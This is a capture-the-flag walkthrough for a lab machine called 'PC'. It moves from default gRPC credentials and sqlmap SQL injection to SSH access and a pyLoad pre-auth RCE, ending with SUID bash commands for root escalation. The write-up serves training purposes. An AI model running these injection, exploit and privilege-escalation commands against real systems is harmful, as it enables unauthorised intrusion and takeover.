# PC

ports 22 and 50051
50051 being gRPC



after installing and launching gRPCUI

https://github.com/fullstorydev/grpcui

`./grpcui -plaintext $IP:50051`





Trying default params we find `admin:admin` logs us in:



Now that we have a token, we can try and request info, However we got an interesting error, since that's the case we can attempt SQLi



save the request from BURP to a file and run an sqlmap with the request, by itendifying `id` as the parameter. `sqlmap -r http.req --risk=2 --level=2 -v 3 --tables -p id`



Dumping accounts provides us with credentials for user `sau`



`ssh sau@$IP`



manually enumerating we find some service running on port 8000:



So we'll use port tunneling through ssh to view what's on port 8000. `ssh sau@<IP> -L 8000:127.0.0.1:8000`



Checking what's on there in our browser of choice. It's a pyLoad, not too familiar what that is, but ...



`searchsploit pyload` finds a pre-auth RCE



`searchsploit -m 51532.py` copies the exploit to the current directory



Pretty straight forward usage. The script URL encodes `" "` for us but nothing else, so we we'll need to URL encode that ourselves.
```bash
"/" - "%2F"
"+" - "%2b"
```
You'll need to URL encode all special characters for which ever command you'll be using to escalate, I like just using `cp /bin/bash /tmp/moon/rootbash` and then `chmod u+s /tmp/moon/rootbash` . As we're on a public server make your own temporary location for your files to not disrupt other's experience. If we'd just add an SUID bit to /bin/bash someone might find that and use it before finding PyLoad therefore skipping the PrivEsc part of the CTF.



